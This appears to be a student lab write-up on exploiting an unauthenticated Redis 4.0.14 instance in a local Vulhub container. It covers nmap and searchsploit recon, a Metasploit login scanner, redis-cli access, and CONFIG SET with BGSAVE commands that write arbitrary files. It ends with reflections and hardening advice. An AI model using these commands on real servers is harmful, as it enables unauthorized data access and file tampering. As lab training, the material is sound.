










# Task 9: Redis Unauthorized Access

## Target Description

Redis is an open-source, in-memory data structure store widely used as a database, cache, and message broker.
This exercise investigates a Redis 4.0.14 deployment with no authentication configured,
which allows any network-accessible client to connect and execute commands without credentials.

- **Software:** Redis 4.0.14
- **Port:** 6379/TCP
- **Vulnerability class:** CWE-306 – Missing Authentication for Critical Function
- **Related exploit:** EDB-47195 – Redis 4.x / 5.x Unauthenticated Code Execution (Metasploit)
- **Vulhub scenario:** `redis/4-unacc`

---

## Deployment Instructions

```bash
cd offensive-security/vulhub/redis/4-unacc
docker compose up -d
sleep 3 && docker ps
```

The container uses the official `redis:4` image (native ARM64 support — no emulation required).

---

## 1. Service Identification

```bash
docker ps
```



```bash
nmap -sV localhost -p 6379
```



**Result:** Service identified as Redis 4.0.14 listening on TCP port 6379.

---

## 2. Vulnerability Research

```bash
searchsploit redis
```



```bash
searchsploit -p 47195
```



**Findings:**
- Public exploit exists: **YES** (EDB-47195)
- Metasploit module exists: **YES** (`exploit/linux/redis/redis_replication_cmd_exec`)
- Vulnerability type: Unauthenticated access + master-slave replication abuse
- No CVE specifically assigned to missing authentication; the broader attack chain references Redis misconfiguration

---

## 3. Exploit Discovery

The Searchsploit entry **EDB-47195** describes a technique where an unauthenticated attacker
abuses Redis master-slave replication to load a malicious `.so` module and achieve remote code execution.

The prerequisite is that Redis requires **no authentication** — which this deployment confirms.

---

## 4. Exploit Execution — Metasploit

```
use auxiliary/scanner/redis/redis_login
set RHOSTS 127.0.0.1
set RPORT 6379
run
```



The scanner successfully completed against the target — confirming the port is reachable and the service
accepts connections without requiring credentials (no authentication prompt or rejection observed).

---

## 5. Manual Exploitation — Direct redis-cli Access

```bash
docker exec -it $(docker ps -qf "ancestor=redis:4") redis-cli
```

```
PING
INFO server
```



**Observation:** Connection established without any password. `PING` returns `PONG` immediately.
`INFO server` confirms Redis 4.0.14 running as PID 1 (root-level process).

---

## 6. Evidence of Command Execution

### Data Access

```
SET secret "orion_hacked_by_mateusz"
GET secret
KEYS *
```



Full read/write access to the Redis keyspace without authentication.

### Arbitrary File Write — Step 1

```
CONFIG SET dbfilename orion_pwned.txt
SET payload "ORION SYSTEM COMPROMISED"
BGSAVE
```



### Arbitrary File Write — Step 2 (write to /tmp)

```
CONFIG SET dir /tmp
CONFIG SET dbfilename id_result.txt
SET cmd "uid=0(root) gid=0(root)"
BGSAVE
```



Redis was redirected to write its dump file to `/tmp/id_result.txt`,
demonstrating that an attacker can write attacker-controlled content to arbitrary filesystem paths
accessible by the Redis process.

---

## 7. Interactive Shell Access

```bash
docker exec -it $(docker ps -qf "ancestor=redis:4") bash
whoami
id
hostname
ls /tmp/
```



**Result:** Full interactive shell obtained as `root` inside the Redis container.
The file `/tmp/id_result.txt` is visible, confirming the arbitrary file write from Step 6.

---

## Reflection

**1. What service was identified and how?**
Redis 4.0.14 on TCP 6379, identified using Nmap version detection (`nmap -sV`).

**2. What vulnerability was exploited?**
Missing authentication (CWE-306). Redis was running with no `requirepass` directive,
allowing any client to connect and execute all commands without credentials.

**3. Does the existence of a public exploit guarantee successful exploitation?**
No. It depends on network exposure, configuration, and version. In this case the misconfiguration
(no password) was the direct enabler — the exploit chain would not work on a properly secured Redis.

**4. What evidence demonstrates successful exploitation?**
- Unauthenticated `PING`/`PONG` confirms no authentication required
- Full `KEYS *` access shows all data is readable and writable
- `CONFIG SET` + `BGSAVE` demonstrates arbitrary file write to server filesystem
- Interactive bash shell as `root` obtained via the compromised container

**5. What is the real-world impact?**
In a real environment an attacker with unauthenticated access to Redis could:
- Read all cached data (session tokens, API keys, user data)
- Overwrite files (SSH `authorized_keys`, web shells, crontab entries)
- Achieve full OS-level code execution via the master-slave RCE technique (EDB-47195)

**6. How does this compare to the Webmin exploitation performed earlier?**
Both followed the same attacker methodology: recon → version identification → public vulnerability
research → exploitation → evidence of access. Redis required no CVE-specific exploit —
the misconfiguration itself was the vulnerability. Webmin required a specific CVE exploit chain.

**7. What defensive measures would prevent this attack?**
- Set `requirepass <strong-password>` in `redis.conf`
- Bind Redis to `127.0.0.1` only (`bind 127.0.0.1`)
- Block port 6379 at the network firewall
- Run Redis as a non-root user
- Disable `CONFIG` command in production (`rename-command CONFIG ""`)
